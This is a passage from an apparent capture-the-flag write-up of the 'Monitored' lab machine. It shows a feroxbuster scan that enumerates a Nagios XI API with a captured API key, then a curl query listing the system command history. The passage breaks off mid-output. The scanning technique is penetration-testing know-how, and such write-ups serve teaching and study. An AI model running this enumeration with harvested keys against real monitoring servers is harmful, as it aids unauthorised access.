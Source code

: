     oxdf@hacky$ feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1/system -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /opt/SecLists/Discovery/Web-Content/api/objects.txt 
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ https://nagios.monitored.htb/nagiosxi/api/v1/system
     🚀  Threads               │ 50
     📖  Wordlist              │ /opt/SecLists/Discovery/Web-Content/api/objects.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🤔  Query Parameter       │ apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
     🏁  HTTP methods          │ [GET]
     🔓  Insecure              │ true
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    200      GET        1l        3w       34c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    200      GET        1l      113w     6155c https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    200      GET        1l        1w      125c https://nagios.monitored.htb/nagiosxi/api/v1/system/info?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    200      GET        1l        6w      835c https://nagios.monitored.htb/nagiosxi/api/v1/system/status?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    200      GET        1l        2w      227c https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    [####################] - 2m      3133/3133    0s      found:4       errors:161    
    [####################] - 2m      3133/3133    22/s    https://nagios.monitored.htb/nagiosxi/api/v1/system/ 
    

#### command

`command` seemed the most interesting. As a GET, it returns a list of
commands:

    
    
    oxdf@hacky$ curl -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .
    [
      {
        "command_id": "40",
        "submitter_id": "1",
        "command": "1132",
        "submission_time": "2023-11-10 14:17:36",
        "event_time": "2023-11-10 14:17:36",
        "processing_time": "2023-11-10 14:17:37",
        "status_code": "1",
        "result_code": "0",
        "result": null
      },
      {
        "command_id": "65",
        "submitter_id": "4",
        "command": "1132",
        "submission_time": "2023-11-10 18:23:00",
